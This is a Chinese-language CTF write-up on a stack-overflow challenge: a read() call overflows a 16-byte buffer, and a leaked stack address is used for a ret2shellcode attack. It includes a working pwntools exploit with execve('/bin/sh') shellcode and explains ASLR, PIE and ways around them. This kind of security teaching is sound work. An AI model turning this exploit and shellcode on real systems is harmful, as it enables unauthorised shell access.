


# 一、分析

## 用file命令查看程序基本信息和checksec命令查看程序防御机制



.png)

**可以得到信息：程序是64位程序，啥保护都没有开**

## 在IDA pro中打开程序pwn




**分析得到：程序声明了2个64位的数据存储，然后会输出buf数组的地址**

## read函数分析

### 1. `read` 函数的机制

```
read` 的函数原型如下： `ssize_t read(int fd, void *buf, size_t count);
```

- **参数 1 (`fd`)**: 读哪里的数据（这里是 0，标准输入）。
- **参数 2 (`buf`)**: 放到哪里去（栈上的变量）。
- **参数 3 (`count`)**: **绝对限制**。它告诉内核：“最多只读这么多字节，超过的我都不要”。

**结论**：`read` 是一个相对安全的函数，因为它强制要求程序员指定长度。

### 2. 你的题目中发生了什么？

让我们看回源码：

C

```
__int64 buf[2];           // 1. 这里的容量只有 16 字节 (2 * 8)
// ...
read(0, buf, 0x40uLL);    // 2. 这里程序员允许 read 读入 64 字节 (0x40)
```

- **容器（buf）**：只有 **16 字节** 大小。
- **阀门（read）**：被设定为允许通过 **64 字节**。

**漏洞成因**： 并不是 `read` 无限制地读取了数据，而是**程序员给 `read` 的授权（64）超过了容器本身的容量（16）。** 如果程序员写的是 `read(0, buf, 16);`，那么无论你输入多少个 'A'，`read` 只会截取前 16 个，多余的会被留在输入缓冲区里，**绝对不会**发生溢出。

### 3. 对比真正的“无限制”函数

为了区分，你需要知道哪些函数是真正“不限制长度”的（极其危险，现代编程严禁使用）：

- **`gets(buf)`**：
  - 它没有长度参数。
  - 它只认“换行符”。
  - 只要你不回车，它就一直往栈里塞数据，直到把栈撑爆。**这是真正的无限制。**
- **`strcpy(dest, src)`**：
  - 它不检查 `dest` 有多大。
  - 它只看 `src` 有多长，直到遇到 `\0` 结束符。
  - 如果 `src` 很长，就会溢出。

### 总结

- **`gets`**：天生有罪，本身就是漏洞。
- **`read`**：本身无罪，它是一个忠实的守门员。
  - 你让它守 16 字节，它就守 16 字节（安全）。
  - 你让它守 64 字节，它就放 64 字节进来，结果你的仓库只有 16 字节大，多出来的 48 字节就把后面的东西（RET地址）砸烂了。

**所以我们可以尝试利用read读取数据过多来尝试对buf数组进行栈溢出攻击**

## ret2shellcode攻击

### 1、观察程序哪里有的rwxp段（可读可写可执行）

.png)

**观察发现只有栈区才有rwxp段，则我们可以把shellcode放在栈区来执行系统调用**

### 2、编写exp.py

**对pwn程序进行调试可以得到：ret和buf之间的偏移量是24**

**之后传统的编写exp**

**即exp_primary.py**

**.png)**

### 3、结果错误分析

你的脚本失败的核心原因是你使用了**硬编码的地址** (`0x7fffffffdcd0`)，但程序每次运行时的栈地址都是变化的（ASLR 机制）。

看你的报错输出：

1. 脚本里写死的是：`0x7fffffffdcd0`
2. 程序实际给出的（Gift）：`0x7fff44f8a0f0`

**这两个地址根本不一样！** 程序试图跳转到一个不存在或不可访问的内存地址 `0x7fffffffdcd0`，导致程序崩溃（Segmentation Fault），所以你会收到 `Got EOF`（管道断开，意味着进程挂了）。

### 解决方案

你需要让脚本“接住”程序抛出的 Gift 地址，实时计算 Shellcode 的位置，而不是写死一个数字。

请使用这份修正后的代码：

Python

```
from pwn import *

# 1. 启动进程
p = process("./pwn")

# 2. 接收程序输出的 Gift 地址
# 程序会打印 "This is your gift : [0x7ffff...]"
# 我们先读到 "[" 之前
p.recvuntil(b"[") 
# 再读取地址字符串（即 0x... 那部分），读到 "]" 为止
leak_addr = p.recvuntil(b"]", drop=True) 

# 3. 将字符串地址转为整数
buf_addr = int(leak_addr, 16)
print(f"[+] Leaked stack address: {hex(buf_addr)}")

# 4. 动态计算跳转地址
# Shellcode 的位置 = buf起始地址 + 24字节填充 + 8字节返回地址
# 所以偏移量是 32
target_addr = buf_addr + 32
print(f"[+] Shellcode will be at: {hex(target_addr)}")

# 5. 准备 Shellcode
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

# 6. 发送 Payload
# 结构：[24字节填充] + [覆盖RET为target_addr] + [Shellcode]
payload = b"a"*24 + p64(target_addr) + shellcode
p.sendline(payload)

# 7. 拿 Shell
p.interactive()
```

### 为什么这样做能行？

1. **动态获取**：程序每次重启，栈地址都会变。通过 `p.recvuntil`，我们利用了程序提供的 leak（泄漏）信息拿到真实的基准地址。
2. **相对偏移**：不管栈在内存的哪里，`Shellcode` 永远紧跟在 `RET` 之后。相对于 `buf` 开头的距离永远是固定的 **32 字节**。

## 为啥NO PIE了，还会变化地址

### 问题一：程序是 No PIE，为什么还要动态计算地址？

**简短回答：因为“No PIE”只管代码段（Code Segment），不管栈（Stack）。**

1. **什么是 No PIE (Position Independent Executable)?**
   - 当程序编译为 `No PIE` 时，程序的**代码段**（比如 `main` 函数的代码、全局变量）会被加载到固定的内存地址（例如 `0x400000`）。
   - 如果我们要利用 ROP 链调用 `system()` 或 `puts()`，这些函数的地址在 No PIE 下确实是固定的，可以直接写死。
2. **什么是 ASLR (Address Space Layout Randomization)?**
   - Linux 系统的 ASLR 机制会随机化**栈（Stack）**、堆（Heap）和共享库（Libc）的位置。
   - **关键点**：你的 `buf` 数组是定义在**栈**上的局部变量 (`__int64 buf[2]`)。
   - 即便程序本身是 No PIE，**栈的基地址**每次运行依然是随机的（除非你手动关闭了系统的 ASLR）。
3. **证据就在你的日志里** 你可以看到程序打印出的 Gift 地址：`0x7fff44f8a0f0`。
   - `0x7fff...` 开头的地址是典型的 64 位 Linux **栈地址**。
   - 如果是代码段（No PIE），地址通常是 `0x40xxxx` 这样很小的数字。
   - 既然 Shellcode 是放在栈上的 `buf` 里，而栈的地址在变，我们就必须用程序提供的 leak（那个 Gift）来动态计算 Shellcode 的绝对地址，不能写死。

------

### 问题二：截取的 target_addr 是不是 ret 的地址？

**并不是。`target_addr` 是 Shellcode 的起始地址。**

这是一个非常微妙但至关重要的区别。我们需要区分“存放返回地址的**位置**”和“我们写入该位置的**值**”。

让我们画个图来看一看数据是如何在栈上排列的，以及 `target_addr` 指向哪里：

#### 1. 内存填充后的样子

当你发送了 payload：`b"a"*24 + p64(target_addr) + shellcode` 之后，栈内存是这样的：

Plaintext

```
内存地址 (低 -> 高)       栈上的内容
---------------------------------------------------------
buf_addr (Gift)  ---> [ 'aaaaaaaa' ]  (填充 0-7)
                      [ 'aaaaaaaa' ]  (填充 8-15)
                      [ 'aaaaaaaa' ]  (填充 16-23，覆盖了 Saved RBP)
---------------------------------------------------------
RET 的栈位置      ---> [ target_addr ] (这是原来的返回地址，现在被我们覆盖了)
---------------------------------------------------------
buf_addr + 32    ---> [ Shellcode  ]  (机器码从这里开始！) <---- target_addr 指向这里！
                      [ ...        ]
```

#### 2. 执行流程解析

1. **覆盖 RET**： 原来的 RET 位置存放的是 `main` 函数结束后的下一条指令地址（比如 `__libc_start_main` 里的某个位置）。 我们用 `p64(target_addr)` 把它覆盖掉了。
2. **main 函数返回 (`ret` 指令)**： 当 `main` 执行到最后，执行 `ret` 指令。 `ret` 指令的作用是：**取出（Pop）当前栈顶的值，并赋值给 RIP（指令指针寄存器）。**
3. **跳转**： CPU 取出了我们写入的 `target_addr`，把它放入 RIP。 CPU 问：“我现在该去哪执行代码？” -> 答案是：“去 `target_addr` 这个地址。”
4. **执行 Shellcode**： `target_addr` 的值被我们要计算为 `buf_addr + 32`。 你可以看到图上 `buf_addr + 32` 正好就是 **Shellcode 开始的地方**。 所以，CPU 跳转到那里，正好撞上了我们的 Shellcode，开始执行。

**即存放ret2地址的地址加8就是shellcode的存放地址，然后即把ret的返回地址覆盖为shellcode地址（偏移量+8+buf地址）**


## ALSR简介

ASLR（**A**ddress **S**pace **L**ayout **R**andomization，**地址空间布局随机化**）是现代操作系统中最重要的内存保护机制之一。

简单来说，它的核心目的是：**让攻击者猜不到内存地址**。

你之前的 exp 失败正是因为 ASLR：你把地址写死成了 `0x7fffffffdcd0`，但下次运行程序时，操作系统把栈“搬家”到了 `0x7fff44f8a0f0`，导致你的 exp 扑了个空。

下面我为你详细拆解 ASLR 的原理、影响以及如何绕过它。

------

### 1. 为什么需要 ASLR？

在没有 ASLR 的年代（或者 ASLR 被关闭时），程序的内存布局是**固定**的。

- 栈永远在 `0xbffff...` 开始。
- Libc（标准库）永远在某个固定的位置。

**黑客的快乐时光**：

攻击者只需要在自己的电脑上调试一次，找到 Shellcode 的地址或者 `system()` 函数的地址，然后写进 exp 里。这个 exp 发给世界上任何一台运行该程序的机器，都能直接攻击成功，因为大家的地址都一样。

**ASLR 的出现**：

为了破坏这种“通用性”，操作系统决定：每次程序启动时，都要**随机**地改变内存区域的基地址。

### 2. ASLR 到底随机化了什么？

ASLR 开启时，以下内存区域的位置会发生变化：

1. **栈 (Stack)**：存放局部变量（比如你的 `buf`）、返回地址。
2. **堆 (Heap)**：存放动态分配的内存（`malloc` 出来的数据）。
3. **共享库 (Libraries/mmap)**：比如 `libc.so` 的加载位置。如果不随机化，攻击者可以直接跳转到 `system` 函数去执行命令（即 Ret2Libc 攻击）。
4. **程序自身的代码段 (Image Base)**：**注意！这一项取决于 PIE**。
   - 如果程序编译时开启了 **PIE (Position Independent Executable)**，代码段基址也会随机。
   - 如果程序是 **No PIE**（像你的题目一样），代码段地址固定在低地址（如 `0x400000`），即使系统开启了 ASLR。

### 3. 直观对比：关 vs 开

假设我们连续运行两次同一个程序：

#### 情况 A：ASLR 关闭 (Off)

- **Run 1**: Stack: `0xffffd000`, Libc: `0xf7e00000`
- **Run 2**: Stack: `0xffffd000`, Libc: `0xf7e00000`
- **攻击策略**：硬编码 `0xffffd000`，百发百中。

#### 情况 B：ASLR 开启 (On) - 你的现状

- **Run 1**: Stack: `0x7fffc3a01000`, Libc: `0x7f23a1000000`
- **Run 2**: Stack: `0x7fff44f8a000`, Libc: `0x7f98b2000000`
- **攻击策略**：硬编码直接崩溃。

------

### 4. 这里的关键：相对偏移 (Offset)

虽然**基地址**变了，但**内部的相对位置**是永远不变的。

这就是为什么你的 exp 中计算 `target_addr = buf_addr + 32` 是有效的：

- 不管 `buf` 被搬到了火星还是月球，`target` (Shellcode) 永远躺在 `buf` 起始位置往后数 32 个字节的地方。
- 这就是物理定律般的**相对偏移**。

### 5. 如何绕过 ASLR？

攻击者通常使用以下几种方法来对抗 ASLR：

#### 方法一：信息泄露 (Information Leak) —— 你的题目就是这个

这是最稳健的方法。

1. **泄露**：利用程序漏洞（如 `printf`）打印出一个栈上的地址（Gift）。
2. **计算**：根据泄露出来的地址，加上/减去固定的偏移量，算出基地址或其他变量的真实地址。
   - `真实Shellcode地址 = 泄露的buf地址 + 偏移量(32)`

#### 方法二：Ret2Ret / NOP Sled (部分对抗)

如果你只能大概猜到一个范围，可以在 Shellcode 前面填几千个 `NOP` 指令（或使用 `ret` 滑梯）。只要跳转落在这几千个字节中的任何一个，它都会滑到 Shellcode 执行。但这在 64 位系统巨大的内存空间面前，成功率依然极低。

#### 方法三：爆破 (Brute Force)

- **32位系统**：随机化的范围有限（只有几位变化），运气好的话跑几千次能撞对一次。
- **64位系统**：随机化范围太大（几万亿种可能），爆破基本不可能成功，除非程序有特殊设计（如 `fork` 出的子进程虽然地址随机，但子进程与父进程内存布局完全一致）。

### 6. 容易混淆的概念：ASLR vs PIE

- **ASLR** 是**操作系统**（Kernel）的功能。它管的是栈、堆、Libc。
- **PIE** 是**编译器**（GCC）的功能。它管的是二进制程序自己的代码段（`.text`）。

| **ASLR** | **PIE** | **现象**                                                     | **你的题目**               |
| -------- | ------- | ------------------------------------------------------------ | -------------------------- |
| On       | Off     | 栈、Libc 乱变；但在 `0x40xxxx` 的代码（如 `main` 函数）地址永远固定。 | **这是你的情况**           |
| On       | On      | 所有东西都在乱变，连 `main` 函数地址都变。                   | 更难，需要先 leak 代码基址 |
| Off      | Off     | 所有地址全是固定的。                                         | 此时可以直接硬编码         |

### 7. 常用命令

在 Linux 终端中，你可以查看或修改 ASLR 设置：

**查看状态：**

Bash

```
cat /proc/sys/kernel/randomize_va_space
```

- `0`: 关闭。
- `1`: 半开启（栈、Libc 随机；堆不随机）。
- `2`: 全开启（最常用的默认状态）。

**临时关闭（用于调试学习，需要 root）：**

Bash

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

*如果你在本地把这个关了，你之前那个硬编码的 exp 可能就能跑通了。但在远程服务器（CTF 环境）上，你没有 root 权限，必须通过 Leak 来绕过。*